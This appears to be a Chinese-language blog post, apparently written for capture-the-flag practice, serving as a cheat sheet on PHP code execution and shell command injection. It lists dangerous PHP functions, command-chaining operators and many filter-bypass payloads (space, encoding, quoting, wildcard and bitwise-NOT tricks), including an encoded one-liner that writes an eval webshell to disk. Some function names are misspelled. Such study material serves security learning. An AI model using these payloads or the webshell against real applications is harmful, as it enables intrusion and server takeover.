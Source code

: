 ```yaml
---
layout: post
title: 命令执行
categories: [web,rce]
---
```


# 远程代码执行

## 常见的函数

> 1.eval($_POST['cmd']);  参数当php代码执行  ,需以分号结尾

> 2.assert(代码) 不需以分号结尾

> 3.preg_replace(‘正则规则’,'替换成的字符'，‘被替换的字符’)  规则里面的`/e`是将替换完的字符转变为eval()方式

> 4.array_map(callable,array1[,array2···]) callable是回调函数,执行array的值

```php
<?php
  $func=$_GET['fun'];
  $cmd=$_POST['cmd'];
  $array[0]=$cmd;
  $new_array=array_map($func,$array);
  echo $new_array;
?>
例：
  url?func=assert;
  post:cmd=phpinfo();
```

> 5.creat_function(‘’,$_POST['cmd']) 从传递的参数中创建一个匿名函数，并为其返回唯一的名称
> 
> `'xxxx'`包裹的不会被解析，而`"xxxx"` 包裹的会被转义

> 6.call_useer_func(callback,parameter1[,...])

> ```
> 例：call_user_func("assert",$_POST['cmd']);
> ```

> 7.array_filter(array,callback) 如：array_filter(`$`array,`$`func)

## 双引号

> 在php中双引号的变量会被解析，单引号不会，因此可以用`{${phpinfo()}}`包裹

<br/>

# 远程系统命令执行

## 常见函数

> system():显示输出
> 
> exec(cmd,output)：仅执行,只返回结果的最后一行，可以使用第二个参数输出到指定数组
> 
> shell_exec()：通过shell环境执行和输出
> 
> passthru()：在unix系统命令并显示原始输出
> 
> penti_exec()
> 
> popen()：打开进程文件指针,与`exec()`类似
> 
> proc_popen()：执行一个命令并且打开用来输入/输出的文件指针
> 
> 反引号命令执行

## 常用特殊字符  

```
> 1|2：直接执行2
> 
> 1||2：仅1为假2执行
> 
> 1&2：1可真可假
> 
> 1&&2：1只能为真2才执行
> 
> 1;2：2都被执行,`;`是在shell环境下的连续命令
```  

## 常见的绕过方法

### 1.空格绕过

常见的绕过符号有：
`$IFS$9` 、`${IFS}` 、`%09`(php环境下)、 重定向符`<>`、`<、`

### 2.拼接绕过

```php
#执行ls命令：
a=l;b=s;$a$b
#cat flag文件内容：
a=c;b=at;c=f;d=lag;$a$b ${c}${d}
#cat test文件内容
a="ccaatt";b=${a:0:1}${a:2:1}${a:4:1};$b test
```

### 3.编码绕过

```php
#base64
echo "Y2F0IC9mbGFn"|base64 -d|bash ==>cat /flag
echo Y2F0IC9mbGFn|base64 -d|sh==>cat /flag
#hex
echo "0x636174202f666c6167" | xxd -r -p|bash ==>cat /flag
#oct/字节
$(printf "\154\163") ==>ls
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==>cat /flag
{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|\$0 ==>cat /flag
#i也可以通过这种方式写马
内容为<?php @eval($_POST['c']);?>
${printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php
```

### 4.单引号和双引号绕过

```
c'a't test
c"a"t test
```

### 5.反斜杠绕过

```
ca\t test
```

### 6..通过$PATH绕过

```
#echo $PATH 显示当前PATH环境变量，该变量的值由一系列以冒号分隔的目录名组成
#当执行程序时，shell自动跟据PATH变量的值去搜索该程序
#shell在搜索时先搜索PATH环境变量中的第一个目录，没找到再接着搜索，如果找到则执行它，不会再继续搜索
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
`echo $PATH| cut -c 8,9`t test
```

### 7.linux中查看文件内容的命令

```
cat、tac、more、less、head、tail、nl、sed、sort、uniq
```

### 8.通配符绕过

```
cat t?st
cat te*
cat t[a-z]st
cat t{a,b,c,d,e,f}st
```

### 9.如果过滤了&_等字符

```php
取反
<?php
  $a = "phpinfo";
  echo urlencode(~$a);
?>
#%8F%97%8F%96%91%99%90
(~%8F%97%8F%96%91%99%90)();
```

### 10.内联执行

```

```

### 其他
#### system('ls') : 列举当前目录下的所有文件
#### system("find / -name flag*")：查找所有文件名匹配flag的文件